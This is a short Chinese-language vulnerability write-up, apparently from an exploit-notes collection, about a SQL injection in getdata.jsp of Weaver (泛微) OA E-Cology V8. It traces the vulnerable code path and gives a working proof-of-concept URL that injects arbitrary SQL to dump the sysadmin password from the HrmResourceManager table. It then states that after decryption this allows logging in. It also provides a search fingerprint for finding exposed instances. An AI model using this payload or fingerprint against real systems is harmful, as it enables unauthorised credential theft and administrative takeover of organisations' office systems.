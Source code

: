 # 泛微OA E-Cology getdata.jsp SQL注入漏洞

## 漏洞描述

泛微OA V8 存在SQL注入漏洞，攻击者可以通过漏洞获取管理员权限和服务器权限

## 漏洞影响

<a-checkbox checked>泛微OA V8</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="泛微-协同办公OA"</a-checkbox></br>

## 漏洞复现

在getdata.jsp中，直接将request对象交给

`weaver.hrm.common.AjaxManager.getData(HttpServletRequest, ServletContext) :` 

方法处理



![img](../../../.vuepress/public/img/fanwei-17.png)



在getData方法中，判断请求里cmd参数是否为空，如果不为空，调用proc方法



![img](../../../.vuepress/public/img/fanwei-18.png)



Proc方法4个参数，(“空字符串”,”cmd参数值”,request对象，serverContext对象)

在proc方法中，对cmd参数值进行判断，当cmd值等于getSelectAllId时，再从请求中获取sql和type两个参数值，并将参数传递进getSelectAllIds（sql,type）方法中

![img](../../../.vuepress/public/img/fanwei-19.png)





POC

```plain
http://xxx.xxx.xxx.xxx/js/hrm/getdata.jsp?cmd=getSelectAllId&sql=select%20password%20as%20id%20from%20HrmResourceManager
```

查询HrmResourceManager表中的password字段，页面中返回了数据库第一条记录的值（sysadmin用户的password）

![img](../../../.vuepress/public/img/fanwei-20.png)



解密后即可登录系统

![img](../../../.vuepress/public/img/fanwei-21.png)